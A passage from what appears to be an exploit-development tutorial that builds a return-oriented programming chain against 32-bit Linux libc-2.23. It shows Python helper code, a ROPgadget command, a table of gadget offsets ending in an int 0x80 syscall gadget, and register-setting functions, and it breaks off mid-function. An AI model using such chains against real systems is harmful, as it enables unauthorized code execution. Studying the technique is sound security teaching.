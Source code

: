 ```python
import sys
import struct 

BUFFER_SIZE = 64
BUFFER_ADDRESS = None
LIBC_ADDRESS = None

# Converts libc offset to address in memory
def libc_addr(addr):
  return struct.pack('<I', addr + LIBC_ADDRESS)


def main():
  global BUFFER_ADDRESS
  global LIBC_ADDRESS

  if (len(sys.argv) != 3):
    print("usage: " + sys.argv[0] + " <buffer_address> <libc_address>")
    exit(-1)

  BUFFER_ADDRESS = int(sys.argv[1], 16)
  LIBC_ADDRESS = int(sys.argv[2], 16) # This will be 0xf7e00000

if __name__ == '__main__':
  main()
```

Now that we know where libc is located, we can run ROPgadget on it and look for useful gadgets.


`ROPgadget --binary /lib/i386-linux-gnu/libc-2.23.so > gadgets.txt`

We can now `grep` through `gadgets.txt` to find gadgets that we like. Here are the ones that I found:

| address | gadget |
----------|---------
| 0x00001aa6 | pop edx ; ret |
| 0x00018395 | pop ebx ; ret |
| 0x0002406e | pop eax ; ret |
| 0x000b5377 | pop ecx ; ret |
| 0x00002c87 | int 0x80 |

The reason that I chose these gadgets is because each one will set its register and return. This makes them really simple to chain together since you don't have to worry about side-effects. Now, we can add utility functions to our python file for each of our gadgets:

```python
def set_edx(value):
  # 0x00001aa6 : pop edx ; ret
  return libc_addr(0x00001aa6) + struct.pack('<I', value)

def set_ebx(value):
  # 0x00018395 : pop ebx ; ret
  return libc_addr(0x00018395) + struct.pack('<I', value)

def set_eax(value):
  # 0x0002406e : pop eax ; ret
  return libc_addr(0x0002406e) + struct.pack('<I', value)

def set_ecx(value):
  # 0x000b5377 : pop ecx ; ret
```